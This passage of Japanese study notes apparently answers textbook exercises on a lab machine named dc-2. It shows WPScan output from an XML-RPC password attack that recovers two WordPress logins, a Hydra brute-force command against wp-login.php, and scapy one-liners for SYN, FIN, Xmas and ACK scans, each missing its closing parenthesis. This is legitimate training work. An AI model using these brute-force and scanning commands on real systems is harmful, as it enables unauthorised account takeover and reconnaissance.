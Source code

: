         Interesting Finding(s):

        [+] Headers

        ~~中略~~

        [+] Performing password attack on Xmlrpc against 3 user/s
        Error: No response from remote server. WAF/IPS? (Failure when receiving data from the peer)                                                                                                   
        [SUCCESS] - jerry / adipiscing                                                                                                                                                                
        [SUCCESS] - tom / parturient                                                                                                                                                                  
        Trying admin / log Time: 00:00:31 <===================================================================                                                    > (646 / 1121) 57.62%  ETA: ??:??:??

        [!] Valid Combinations Found:
        | Username: jerry, Password: adipiscing
        | Username: tom, Password: parturient

        [!] No WPScan API Token given, as a result vulnerability data has not been output.
        [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

        [+] Finished: Sun Nov 17 14:41:37 2024
        [+] Requests Done: 819
        [+] Cached Requests: 5
        [+] Data Sent: 424.667 KB
        [+] Data Received: 750.678 KB
        [+] Memory used: 272.43 MB
        [+] Elapsed time: 00:00:35
        ```
        tomとjerryのパスワードが明らかになった
    
    * Hydraを使用した場合
        ```
        hydra -L users.txt -P cewl.txt dc-2 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
        ```
        wpscanはWordPressに最適化されているからかユーザ名リストとパスワード候補リストを渡すだけで処理を始めてくれる

4. P.441の代表的なスキャンを実現するPythonプログラムを作成してください．

    * 参考にしたサイト
        https://zenn.dev/myuki/articles/8454be9d646ea9

    scapyをインタラクティブモードで起動する
    ```
    #python仮想環境へ移行
    >source pyenv/bin/activate
    #scapy起動
    >sudo scapy
    ```

    パケットを送信する関数
    * TCP SYNスキャン
        ```
        sr1(IP(dst='192.168.56.106') / TCP(dport=80, flags='S')
        ```
    * FINスキャン
        ```
        sr1(IP(dst='192.168.56.106') / TCP(dport=80, flags='F')
        ```
    * Xmasスキャン
        ```
        sr1(IP(dst='192.168.56.106') / TCP(dport=80, flags='FUR')
        ```
    * ACKスキャン
        ```
        sr1(IP(dst='192.168.56.106') / TCP(dport=80, flags='A')